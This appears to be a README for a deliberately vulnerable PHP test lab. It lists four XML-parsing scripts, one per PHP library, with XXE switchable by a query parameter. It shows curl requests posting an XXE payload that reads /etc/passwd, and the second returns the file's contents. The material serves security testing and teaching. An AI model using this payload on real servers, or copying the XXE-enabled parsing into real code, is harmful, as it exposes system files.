 # PHP targets

## XML

Each script loads XML from the post body using a different PHP xml loading library.

* `xml.php`
* `xmlreader.php`
* `xmldom.php`
* `xmlsimple.php`

XXE can be enabled for `xmldom` and `xmlsimple` by setting the `xxe` query param to `true`.

```
$ curl -X POST http://127.0.0.1:9098/xmldom.php -d @files/owasp2.xml
<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
----------------------------------------------------------------------------
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY>
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>&xxe;</foo>
```

```
$ curl -X POST http://127.0.0.1:9098/xmldom.php?xxe=true -d @files/owasp2.xml
<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
----------------------------------------------------------------------------
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY>
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
</foo>
```
